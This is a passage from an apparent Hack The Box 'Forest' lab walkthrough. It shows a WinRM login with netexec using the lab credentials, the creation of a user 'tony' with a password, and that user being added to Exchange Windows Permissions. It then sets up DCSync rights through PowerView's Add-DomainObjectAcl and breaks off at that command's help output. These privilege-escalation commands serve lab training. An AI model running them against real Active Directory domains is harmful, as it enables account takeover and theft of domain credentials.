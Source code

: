 ```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ netexec winrm 10.129.59.175 -u svc-alfresco -p 's3rvice'                        
```
Once the shell is established, we will create a new user called `tony` using the [Net User command](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11)).

```shell
net user tony Welcome@123 /add
```

Once the account is created, we will add it to the `Exchange Windows Permissions` group by running the following [Net Group command](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051(v=ws.11)):

```shell
net group 'Exchange Windows Permissions' tony /add
```

We can verify if the user was successfully added to the group by running the `Get-ADGroupMember` PowerShell command:

```Shell
Get-ADGroupMember -Identity 'Exchange Windows Permissions'
```

### Perform a DCSync Attack

Now that we have successfully obtained `WriteDacl` permissions on the domain, we can proceed with granting `DCSync` privileges to the account. For this, we will use [`PowerView.py`](https://github.com/aniqfakhrul/powerview.py), a Python implementation of the [original PowerView PowerShell modules](https://powersploit.readthedocs.io/en/latest/Recon/#powerview).

We can start the `PowerView` session by running the following:

```shell
powerview htb/tony:'Welcome@123'@10.129.59.175 --dc-ip 10.129.59.175
```

After logging in, `tony` can grant himself `DCSync` permissions on the domain by running the `Add-DomainObjectAcl` command:

However, before proceeding, let's check the available options by running the command with the `-h` flag for help.

```shell
PV > Add-DomainObjectAcl -h
usage: powerview Add-DomainObjectAcl [-h] -TargetIdentity TARGETIDENTITY
                                     -PrincipalIdentity PRINCIPALIDENTITY
                                     [-Rights [{immutable,fullcontrol,resetpassword,writemembers,dcsync}]]
                                     [-RightGUID RIGHTS_GUID]
                                     [-ACEType [{allowed,denied}]] [-Inheritance]
                                     [-Server SERVER] [-OutFile OUTFILE]

options:
  -h, --help            show this help message and exit
  -TargetIdentity TARGETIDENTITY
  -PrincipalIdentity PRINCIPALIDENTITY
  -Rights [{immutable,fullcontrol,resetpassword,writemembers,dcsync}]
  -RightGUID RIGHTS_GUID
  -ACEType [{allowed,denied}]
  -Inheritance
  -Server SERVER
  -OutFile OUTFILE
```
